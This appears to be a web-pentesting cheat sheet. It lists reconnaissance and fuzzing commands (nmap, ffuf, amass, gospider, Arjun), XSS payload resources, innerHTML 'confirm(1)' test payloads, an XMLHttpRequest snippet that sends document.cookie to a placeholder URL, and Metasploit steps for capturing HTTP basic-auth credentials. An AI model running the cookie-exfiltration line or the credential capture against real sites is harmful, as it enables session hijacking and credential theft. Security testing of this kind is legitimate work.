 # Javascript Breakdown Requests

### Javascript
```
document.getElementById
document.getElementByClassName
document.getElementsByName
document.getElementsByTagName
document.getElementsByTagNameNS

var variablename document.getElementByIdTagName("tagName").innerHTML = "-confirm(1)-"
var variablename document.getElementsByIdTagName("tagName")[0].innerHTML = "-confirm(1)-"
```

### Creating Requests
```
var xhttp = new XMLHttpRequest();
xhttp.open('GET', 'URL' + document.cookie, true);
xhttp.send();
```

Thanks to @Legacyy for assisting me with the javascript breakdown

### XSS
Resources:

https://joecmarshall.com/posts/burp-suite-extensions-xss-validator/

https://portswigger.net/support/xss-beating-html-sanitizing-filters

https://xsshunter.com/app

https://owasp.org/www-community/xss-filter-evasion-cheatsheet

### XSS Payloads
https://github.com/payloadbox/xss-payload-list

https://github.com/pgaijin66/XSS-Payloads


## Port scanning web server
```
nmap -sC -sV -v -p- IP
nmap -sC -sV -v -p- IP --min-rate=10000
```

## Fuzzing Websites
https://github.com/ffuf/ffuf

```
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u $URL/FUZZ -fc 403,404,302

To filter by size
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u $URL/FUZZ -fc 403,404,302 -fs 1000
```
### Fuzzing Resources
https://github.com/chrislockard/api_wordlist/blob/master/common_paths.txt

## Subdomain Scraping
https://github.com/OWASP/Amass
```
amass enum -v -src -ip -brute -min-for-recursive 2 -o domain_list.txt -d $domain
```

### Cleaning domain list (thanks to @dee-see) for assisting on this!
```
awk '{print $2}' $1
```

### Probing domains
https://github.com/tomnomnom/httprobe
```
cat domain_list | httprobe > http_domain_list
```

### Screenshots
https://github.com/FortyNorthSecurity/EyeWitness
```
python3 /path/to/EyeWitness.py -f $1
```

### Web Crawling
https://github.com/jaeles-project/gospider

https://github.com/hakluke/hakrawler

```
gospider -S domain_list.txt --depth 2 --no-redirect -t 50 -c 3 -o gospiderdump
```

### Fuzzing Params
https://github.com/s0md3v/Arjun

https://github.com/maK-/parameth

```
arjun.py -u $url -t 10 --get --post
```

### Domain History
https://github.com/tomnomnom/waybackurls

### findings new domains using amass
https://danielmiessler.com/study/amass/

```
amass intel -ip -cidr $1
```

### capturing basic auth
```
1. sudo msfdb run
2. use auxiliary/server/capture/http_basic
3. set URIPATH abc
4. run
```

### Python secured webserver
```
https://support.microfocus.com/kb/doc.php?id=7013103

openssl req -newkey rsa:2048 -new -nodes -x509 -days 3650 -keyout key.pem -out cert.pem
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365
```

```python
import BaseHTTPServer, SimpleHTTPServer
import ssl


httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 443),
        SimpleHTTPServer.SimpleHTTPRequestHandler)

httpd.socket = ssl.wrap_socket (httpd.socket,
        keyfile="/path/to/key.pem",
        certfile='/path/to/cert.pem', server_side=True)

httpd.serve_forever()
```
